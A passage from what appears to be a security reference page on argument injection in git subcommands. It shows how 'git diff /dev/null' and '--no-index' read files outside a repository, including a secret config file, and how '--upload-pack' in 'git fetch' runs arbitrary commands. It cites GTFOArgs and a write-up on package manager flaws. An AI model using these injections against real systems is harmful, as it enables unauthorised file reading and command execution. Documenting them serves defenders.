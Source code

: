 References:
- [Write up: Securing Developer Tools Package Managers - Argument Injections in Bundler and Poetry](https://blog.sonarsource.com/securing-developer-tools-package-managers)

## git-diff

{% embed url="https://git-scm.com/docs/git-diff" %}

### git-diff against /dev/null

`git-diff` against `/dev/null` can be used to read the entire content of a file even outside the git directory.

```bash
$ git diff /dev/null /path/fo/file/outside/git/repo
$ git diff /dev/null path/to/file/in/git/repo
```

References:
- [GTFOArgs: git](https://gtfoargs.github.io/gtfoargs/git/)

### --no-index

The [--no-index](https://git-scm.com/docs/git-diff) key can be used to turn `git-diff` into a normal `diff` against another file in the git repository, which does not have to be tracked.

```bash
$ git diff --no-index local-secret-file.conf git.md
```

References:
- [GTFOArgs: git](https://gtfoargs.github.io/gtfoargs/git/)

## git-fetch

{% embed url="https://git-scm.com/docs/git-fetch" %}

### --upload-pack

The [--upload-pack](https://git-scm.com/docs/git-fetch#Documentation/git-fetch.txt---upload-packltupload-packgt) flag can be used to execute arbitrary commands. The output is not shown, but it is possible to route the output to stderr using `>&2`.

```bash
$ mkdir repo
$ cd repo
$ git init
$ git fetch main --upload-pack='cmdname arg1 arg2 >&2 #'
```

References:
- [GTFOArgs: git](https://gtfoargs.github.io/gtfoargs/git/)

## git-fetch-pack
